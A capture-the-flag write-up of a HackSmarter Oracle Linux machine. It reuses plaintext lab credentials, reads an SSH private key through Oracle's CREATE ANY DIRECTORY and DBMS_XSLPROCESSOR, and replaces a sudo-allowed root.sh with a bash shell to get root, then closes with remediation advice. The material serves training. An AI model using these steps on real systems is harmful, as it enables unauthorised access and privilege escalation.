










`[ASSUMED BREACH]` `[ORACLE DB]` `[FILE READ]` `[SUDO ABUSE]`


**Machine Write-Up**

---

**Platform:** HackSmarter   
**Difficulty:** Medium   
**Operating System:** Oracle Linux 8 (OpenSSH 8.0)

---

## Objective / Scope

You have been assigned a penetration test on a critical Linux server in the client's environment. The scope is strictly limited to a single Linux server environment designated as the target. The primary objective is to gain root-level access to this system to demonstrate maximum impact and the full extent of the security compromise to the client.

A set of leaked credentials, recently recovered from a third-party data breach, have been provided. While the specific service or application these credentials belong to is unknown, they serve as the initial vector for establishing a foothold.

---

<details>
<summary>Summary</summary>

Nmap reveals two services: SSH on port 22 and a web application on port 8978 identified as CloudBeaver, a web-based database management front-end. Authenticating with leaked credentials (`jane / Greattalisman1!true`) confirms the same password works against CloudBeaver and grants access to an Oracle 21c XE instance as database user `DEV`. Privilege enumeration via `SELECT * FROM session_privs` reveals that `DEV` holds `CREATE ANY DIRECTORY` — a dangerously permissive Oracle privilege. Combining it with `DBMS_XSLPROCESSOR.READ2CLOB`, we map a directory object to `/home/oracle/.ssh` and read the oracle OS user's RSA private key directly out of the database. The extracted key is used to authenticate over SSH as `oracle`. Post-exploitation enumeration via `sudo -l` shows that `oracle` can execute `/opt/oracle/product/21c/dbhomeXE/root.sh` as root with no password. The `oracle` user owns the parent directory `dbhomeXE/`, allowing the real `root.sh` to be renamed and replaced with a one-line bash shell. Running it under sudo yields a root shell.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn -p- <TARGET_IP>
```

```
# Console Output
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 9f:b0:53:1a:86:35:85:79:a3:d1:7b:27:d6:ec:51:d2 (RSA)
|   256 6e:cf:27:7c:e7:59:57:c4:3f:42:e2:c2:1f:ca:ba:90 (ECDSA)
|_  256 d9:ae:da:6a:f4:c0:90:f0:03:01:bd:d8:e2:f6:82:f7 (ED25519)
8978/tcp open  unknown
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Date: Wed, 24 Jun 2026 17:24:08 GMT
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Type: text/html
|     data-version="25.2.0.202509010904"
```

Two services: SSH on port 22 and an unrecognised service on port 8978 that returns an HTTP 200 with an HTML body referencing `data-version="25.2.0.202509010904"` — a version fingerprint we use for identification. We add `talisman.hsm` to `/etc/hosts` and browse to the port.

> 💡 **Author's Note:** The notes reference port `8078` when describing the CloudBeaver service, but the Nmap scan clearly shows the HTTP service listening on port `8978`. All references below use the correct port.

### HTTP (8978) — CloudBeaver

We navigate to `http://talisman.hsm:8978` and are presented with a CloudBeaver login page. CloudBeaver is an open-source, web-based database management tool — essentially a browser-hosted DBeaver instance capable of managing Oracle, PostgreSQL, MySQL, and other databases through a unified interface.



Authenticating with the leaked credentials (`jane / Greattalisman1!true`) succeeds. We land on a dashboard showing a connected Oracle 21c XE instance.



> **Rabbit Hole — CVE Research on CloudBeaver Version**
>
> The version banner discloses `25.2.0.202509010904`. A search surfaces `CVE-2026-9277` among others, but nothing directly exploitable against this configuration. We pivot from attacking the application layer to attacking the database itself.



---

## Foothold

### Enumerating Oracle DB Privileges

CloudBeaver's session panel confirms we are connected as database user `DEV`.



We open the SQL editor and enumerate the effective privilege set — everything active in this session, including role-based grants:

```sql
SELECT * FROM session_privs;
```



The output includes `CREATE ANY DIRECTORY` and `DROP ANY DIRECTORY`. We verify these are granted directly to `DEV` rather than inherited via a role:

```sql
SELECT * FROM user_sys_privs;
```



Both are direct grants. This is significant: `CREATE ANY DIRECTORY` lets us create an Oracle **Directory Object** — a label inside the database engine that maps an arbitrary name to a real filesystem path on the underlying server. Oracle uses these for export/import operations, but they are backed by the OS-level permissions of the process running the Oracle instance — typically the `oracle` OS account. A directory object pointing at `/home/oracle/.ssh` lets us read files as that OS user.

### Oracle File Read via CREATE ANY DIRECTORY + DBMS_XSLPROCESSOR

The attack chain exploits two Oracle primitives together:

1. **`CREATE DIRECTORY`** — creates a named alias to any path the oracle OS user can reach
2. **`DBMS_XSLPROCESSOR.READ2CLOB`** — a function designed for reading XML/XSLT content, but with no file type validation; it reads any file at the given path and returns it as a CLOB

```sql
CREATE DIRECTORY MY_DIR AS '/home/oracle/.ssh';
```



```sql
SELECT DBMS_XSLPROCESSOR.READ2CLOB('MY_DIR', 'id_rsa') FROM dual;
```



The full contents of `id_rsa` are returned. CloudBeaver's built-in export function allows saving the result set to a local text file.



The file saves as `Result - 1 2026-06-25 17-19-34.txt`. We rename it and harden permissions before using it:

```bash
mv 'Result - 1 2026-06-25 17-19-34.txt' id_rsa
chmod 600 id_rsa
```

```bash
ssh -i id_rsa oracle@talisman.hsm
```

```
# Console Output
Last login: Thu Jun 25 15:13:38 2026
[oracle@talisman ~]$ whoami
oracle
```

We have a shell as `oracle`. The user flag is in the home directory.



---

## Privilege Escalation

### Manual Enumeration

```bash
id
```

```
# Console Output
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba),54323(oper),54324(backupdba),54325(dgdba),54326(kmdba),54330(racdba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

```bash
ls -la /home
```

```
# Console Output
total 0
drwxr-xr-x.  4 root     root      36 Sep  4  2025 .
dr-xr-xr-x. 17 root     root     224 Sep  8  2025 ..
drwx------.  5 oracle   oinstall 154 Oct  2  2025 oracle
drwx------.  4 superset superset 175 Sep  4  2025 superset
```

A second OS user `superset` exists but their home is not readable to us. We check sudo.

### Sudo — root.sh Replacement via Directory Ownership

```bash
sudo -l
```

```
# Console Output
Matching Defaults entries for oracle on talisman:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, ...

User oracle may run the following commands on talisman:
    (ALL) NOPASSWD: /opt/oracle/product/21c/dbhomeXE/root.sh
```

`oracle` can execute `root.sh` as root with no password. Running it as-is only produces a log file readable only by root. The critical question is: who owns the directory the script lives in?

```bash
ls -la /opt/oracle/product/21c/dbhomeXE/ | head -5
```

```
# Console Output
drwxrwxr-x. 61 oracle oinstall  4096 Jun 25 18:02 .
drwxrwxr-x.  3 oracle oinstall    22 Sep  4  2025 ..
...
-rwx------.  1 root   oinstall   507 Aug 18  2021 root.sh
```

The file `root.sh` is owned by root — but `oracle` owns the parent directory `dbhomeXE/` with write permission (`drwxrwxr-x`). On Linux, directory ownership controls the ability to **rename** or **delete** entries within that directory, regardless of what the files themselves are owned by. Since `oracle` owns the parent, we can rename the original `root.sh` out of the way and place our own script at that exact path. Sudo will then execute our version as root.

```bash
mv /opt/oracle/product/21c/dbhomeXE/root.sh /opt/oracle/product/21c/dbhomeXE/root-old.sh
```

`nano` is not installed on this host. We use `vi`:

```bash
vi /opt/oracle/product/21c/dbhomeXE/root.sh
```

Our replacement `root.sh`:

```bash
#!/bin/bash
/bin/bash -i
```

```bash
sudo /opt/oracle/product/21c/dbhomeXE/root.sh
```

```
# Console Output
[root@talisman dbhomeXE]# whoami
root
```

Root shell obtained.

---

## Remediation

- **Excessive Oracle directory privileges:** Remove `CREATE ANY DIRECTORY` and `DROP ANY DIRECTORY` from the `DEV` account. These privileges should be restricted to DBAs with explicit operational need. An application database account has no legitimate reason to map Oracle labels to arbitrary OS paths.
- **DBMS_XSLPROCESSOR filesystem access:** Revoke `EXECUTE ON DBMS_XSLPROCESSOR` from any account that does not require it (`REVOKE EXECUTE ON DBMS_XSLPROCESSOR FROM DEV`). Audit all built-in Oracle packages capable of OS-level file I/O — `UTL_FILE`, `DBMS_FILE_TRANSFER`, `DBMS_XSLPROCESSOR`, `DBMS_ADVISOR` — and restrict them to trusted schemas only.
- **SSH keys in oracle home:** Do not store unprotected SSH private keys under the oracle user's home directory. If key-based SSH is operationally required, protect keys with a passphrase and manage them through a secrets vault. Restrict interactive SSH logins for the oracle OS account if not needed.
- **Weak sudo rule with directory-owned binary:** The sudo allowlist entry permits execution of a script that the sudoee can unilaterally replace. Move `root.sh` to a root-owned directory with mode `755` so `oracle` cannot rename or delete it. The invariant for safe NOPASSWD sudo entries is: the binary must live in a directory owned and writable only by root.
- **Credential reuse / public-facing management interface:** The leaked `jane` credentials authenticated against CloudBeaver, which bridged directly into an Oracle session. Restrict the CloudBeaver management interface to internal networks or VPN only, enforce unique credentials per service, and require MFA for any database administration portal reachable from the network.

## References

1. [Oracle Database Pentesting | Hackviser](https://hackviser.com/tactics/pentesting/services/oracle#enumeration)
